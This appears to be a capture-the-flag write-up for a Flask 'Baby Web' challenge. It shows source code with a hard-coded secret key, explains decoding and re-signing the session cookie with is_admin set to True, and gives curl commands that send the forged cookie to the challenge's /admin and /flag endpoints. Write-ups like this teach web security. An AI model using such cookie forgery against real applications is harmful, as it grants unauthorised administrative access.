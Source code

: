 ```yaml
---
title: Baby Web Writeup
date: 2024-05-11
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```


# 0x01

### Source code:

```python
import os
from flask import Flask, render_template, session

app = Flask(__name__)
app.secret_key = "baby-web"
FLAG = os.getenv("FLAG", r"grey{fake_flag}")


@app.route("/", methods=["GET"])
def index():
    # Set session if not found
    if "is_admin" not in session:
        session["is_admin"] = False
    return render_template("index.html")


@app.route("/admin")
def admin():
    # Check if the user is admin through cookies
    return render_template("admin.html", flag=FLAG, is_admin=session.get("is_admin"))

### Some other hidden code ###


if __name__ == "__main__":
    app.run(debug=True)
```

When we looked at the source code, we will find that this challenge has a secret_key of "baby-web" and we are able to get the flag by changing the cookie to get admin.

# 0x02
## Session

Session is to store information that is related to a user, across different requests(https://testdriven.io/blog/flask-sessions/)

In python, a secret key will be used to securely sign session cookies. This safety feature is to prevent tampering and unauthorised access to user's data

At here, we can see that the secret_key is "baby-web",
what we can do is to use a decoder tool to get the exact content of the cookie by using the secret_key

```json
{'is_admin': False}
```

By using the decoder we can see that the decoded content is '{'is_admin': False}'

What we need to do is to change it into '{'is_admin': True}', encoding it and use that as the cookie

```bash
curl -s "http://challs.nusgreyhats.org:33338/admin" -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiZZgQ.1kYTfvAiwehvaSp4vdgOJ5clRM0"
```

# 0x03

After sending the request, from the response

```html
  <button hx-get="/flag" hx-swap="outerHTML" class="btn btn-secondary">Here is an even more secret button.</button>            
```

We still need to access "/flag" to get the flag

```bash
curl -s "http://challs.nusgreyhats.org:33338/flag" -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiZZgQ.1kYTfvAiwehvaSp4vdgOJ5clRM0"
```

By using this, we are able to get the flag
